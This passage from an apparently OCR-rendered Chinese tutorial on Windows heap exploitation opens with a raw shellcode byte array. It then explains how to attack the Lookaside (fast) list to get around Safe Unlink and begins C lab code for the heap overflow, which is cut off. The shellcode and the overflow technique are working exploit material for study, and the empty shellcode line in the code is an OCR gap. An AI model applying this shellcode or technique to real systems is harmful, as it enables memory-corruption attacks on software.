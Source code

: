 	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"

	;

## **利用Lookaside表（快表）进行堆溢出**

Safe Unlink只是对空表中的双向链表进行了验证，而没有对快表的单链表进行验证，所以我们可以通过攻击快表来实现堆溢出。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rzgaq4mrj20cv06u74z.jpg>)

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rzgje97kj20fe0fb76q.jpg>)

首先说明，此方法在实践环境中实行会非常困难，几乎不会遇到能使用这种方法的情况

	它的条件是

	1.  memcpy 赋值

	2.  使用块表  有HeapAlloc 和 HeapFree后还有赋值等

	3.  两次 赋值

代码：

	#include <stdio.h>

	#include <windows.h>

	void main()

	{

		char shellcode []=;

		HLOCAL h1,h2,h3;

		HANDLE hp;

		hp = HeapCreate(0,0,0);

		__asm int 3

		h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);

		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);

		h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
